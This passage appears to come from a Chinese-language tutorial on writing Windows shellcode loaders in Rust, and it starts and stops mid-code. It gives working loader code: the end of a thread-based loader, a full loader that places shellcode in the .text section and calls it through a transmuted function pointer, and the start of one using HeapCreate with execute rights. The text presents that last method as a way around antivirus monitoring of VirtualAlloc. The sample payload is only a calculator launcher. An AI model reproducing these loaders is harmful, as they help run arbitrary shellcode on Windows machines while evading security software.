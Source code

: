 ```plain
                0,
                Some(transmute(ptr)),
                std::ptr::null_mut(),
                0,
                &mut threadid,
            );

            WaitForSingleObject(threadhandle, 0xFFFFFFFF);
        } else {
            println!("执行失败：{}", GetLastError());
        }
    }
}
```

### 函数指针

`link_section`是Rust的一个[attribute](https://doc.rust-lang.org/reference/abi.html#the-link_section-attribute)，它用来将特定的函数或者变量放到程序的指定的区块中，`.text`区块通常用来存储程序的执行代码，它会被加载到内存中并由处理器执行。  
然后通过`std::mem::transmute`将 `*const u8` 类型的指针转换为函数类型 `fn()`，最后执行shellcode。

```plain
fn main() {
    const BUFFER_BYTES:&[u8] = include_bytes!("..\\calc.bin");
    const BUFFER_SIZE:usize = BUFFER_BYTES.len();

    #[link_section = ".text"]
    static BUFFER:[u8;BUFFER_SIZE] = *include_bytes!("..\\calc.bin");
    unsafe{
        let exec = std::mem::transmute::<*const u8,fn()>(&BUFFER as *const u8);
        exec();
    }
}
```

### 通过 heapapi 申请内存

由于`VirtualAlloc`是各大杀软的重点监控对象，所以通常需要使用其他的API来替代，下面介绍的是另一个常见的内存申请方式，即通过`HeapCreate/HeapAlloc`的组合来创建内存空间。  
参考：[HeapCreate function](https://learn.microsoft.com/en-us/windows/win32/api/heapapi/nf-heapapi-heapcreate), [HeapAlloc function](https://learn.microsoft.com/en-us/windows/win32/api/heapapi/nf-heapapi-heapalloc)

该方式同样需要先引入依赖，在`Cargo.toml`文件中添加如下依赖：

```plain
[dependencies]
winapi = {version="0.3.9",features=["winuser","heapapi","errhandlingapi"]}
```

该方法通过`HeapCreate`创建`HEAP_CREATE_ENABLE_EXECUTE`权限的内存堆，然后通过`HeapAlloc`来从堆中分配内存空间，最后通过函数指针的方式执行shellcode。

```plain
use std::mem::transmute;
use winapi::ctypes::c_void;
use winapi::um::errhandlingapi::GetLastError;
use winapi::um::heapapi::HeapAlloc;
use winapi::um::heapapi::HeapCreate;

fn main() {
    let buffer = include_bytes!("..\\calc.bin");

    unsafe {
        let heap = HeapCreate(0x40000, 0, 0);
        let ptr = HeapAlloc(heap, 8, buffer.len());

```